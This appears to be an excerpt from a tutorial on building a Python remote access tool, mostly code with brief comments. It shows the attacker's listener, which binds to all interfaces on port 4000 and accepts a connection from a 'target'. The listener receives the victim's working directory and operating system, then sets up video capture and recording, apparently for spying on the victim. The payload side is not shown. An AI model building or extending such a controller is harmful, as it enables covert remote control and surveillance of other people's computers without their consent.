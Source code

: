 SERVER_HOST = "0.0.0.0" # Bind the server to all available network interfaces.
SERVER_PORT = 4000
BUFFER_SIZE = 1024 * 128  # 128KB max size of messages. You can adjust this to your taste
# Separator string for sending 2 messages at a time
SEPARATOR = "<sep>"

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
The "0.0.0.0" IP address in SERVER_HOST = "0.0.0.0" means to bind the server to all available network interfaces on the host machine.

Next:

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

# Create the socket object.
s = socket.socket()
# Bind the socket to all IP addresses of this host.
s.bind((SERVER_HOST, SERVER_PORT))
# Make the PORT reusable
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
# Set the maximum number of queued connections to 5.
s.listen(5)
print(f"Listening as {SERVER_HOST} on port {SERVER_PORT} ...")
# Accept any connections attempted.
client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Connected!")
# Receive the current working directory and os of the target (client).
cwd = client_socket.recv(BUFFER_SIZE).decode()
targets_os = client_socket.recv(BUFFER_SIZE).decode()
# Print the info received.
print("[+] Current working directory: ", cwd)
print("[+] Target's Operating system: ", targets_os)
# Set up the video capture and writer.
cap = None
out = None
recording_thread = None
